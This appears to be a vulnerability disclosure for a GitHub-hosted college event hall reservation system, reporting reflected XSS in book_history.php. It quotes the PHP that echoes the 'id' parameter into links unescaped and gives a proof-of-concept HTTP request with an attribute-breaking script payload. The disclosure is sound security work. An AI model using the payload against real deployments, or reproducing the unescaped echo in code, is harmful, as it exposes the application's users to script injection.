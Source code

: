 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS book_history.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /book_history.php

## Code
```php
$id = $_GET['id'];

 <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Today">Today</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Week">This Week</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Month">This Month</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=User">User Cancelled</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Admin">Admin Cancelled</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>">All</a></li>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/book_history.php?id=%22%3E%3Cimg%20src=x%20onerror=alert(%22NoChizPlz%22)%3E HTTP/1.1
Host: [REDACTED]
```

## Screenshot

